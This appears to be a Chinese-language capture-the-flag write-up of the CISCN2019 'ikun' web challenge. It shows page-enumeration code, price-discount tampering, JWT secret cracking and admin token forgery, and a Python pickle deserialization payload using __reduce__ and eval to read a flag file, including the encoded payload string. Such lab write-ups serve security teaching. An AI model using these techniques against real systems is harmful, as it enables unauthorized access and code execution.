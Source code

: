 这个字符代表一万，因此可以购买。[查询网站](https://www.compart.com/en/unicode/)

## \[CISCN2019 华北赛区 Day1 Web2\] ikun

首先需要找到 `lv6`，页数很多，写脚本跑一下：

```py
import requests

base = 'http://92a45198-65ac-407a-afbb-530a083474e9.node3.buuoj.cn/shop?page='

for i in range(1,2000):
    url = base + str(i)
    r = requests.get(url)
    if 'lv6.png' in r.text:
        print(i)
        break
```

发现在 181 页，点击购买发现钱不够但是存在折扣，因此抓包修改折扣为非常小的数字，进入 `b1g_m4mber` 页面，提示说只有 admin 可以访问。

抓包发现存在一个长度看起来很短的 jwt，扔到 `c_jwt_cracker` 里跑出密钥 `1Kun`，从而可以到 `jwt.io` 上伪造 `admin` 身份。

随后多出了一键成为大会员的功能，但是点击没有用，查看源代码得到源码。经过代码审计后，发现在 `Admin.py` 处存在 pickle 反序列化：

```py
@tornado.web.authenticated
def post(self, *args, **kwargs):
    try:
        become = self.get_argument('become')
        p = pickle.loads(urllib.unquote(become))
        return self.render('form.html', res=p, member=1)
    except:
        return self.render('form.html', res='This is Black Technology!', member=0)
```

我们可以借助其魔术方法 `__reduce__` 来执行 python 代码。[参考](https://github.com/RafeKettler/magicmethods)

注意 pickle 不能跨 python 版本，这里采用 python2：

```py
import pickle
import urllib

class payload(object):
    def __reduce__(self):
        return (eval, ('open("/flag.txt","r").read()',))

p = pickle.dumps(payload())
print urllib.quote(p)
```

即可生成 URL 编码的序列化数据，填入 `become` 字段即可。

```
c__builtin__%0Aeval%0Ap0%0A%28S%27open%28%22/flag.txt%22%2C%22r%22%29.read%28%29%27%0Ap1%0Atp2%0ARp3%0A.
```
